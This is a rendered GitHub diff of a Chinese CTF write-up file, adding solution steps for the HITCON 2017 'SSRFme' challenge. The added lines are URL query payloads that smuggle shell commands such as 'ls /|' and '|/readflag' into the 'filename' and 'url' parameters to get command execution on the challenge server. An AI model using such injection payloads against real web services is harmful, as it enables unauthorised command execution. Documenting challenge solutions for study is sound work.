

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
补充HITCON2017SSRFme wp

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -2889,11 +2889,13 @@ payload:
 
     1. 先创建文件
         ```url
+        ?url=&filename=ls /|
         ?url=&filename=|/readflag
         ```
     2. 执行命令
         ```url
-        ?url=file:|readflag&filename=a
+        ?url=file:ls /|&filename=a
+        ?url=file:|/readflag&filename=a
         ```
 
 ## [BJDCTF2020] EasySearch (SSI-Server-Side Includes Injection（服务端包含注入）)
````
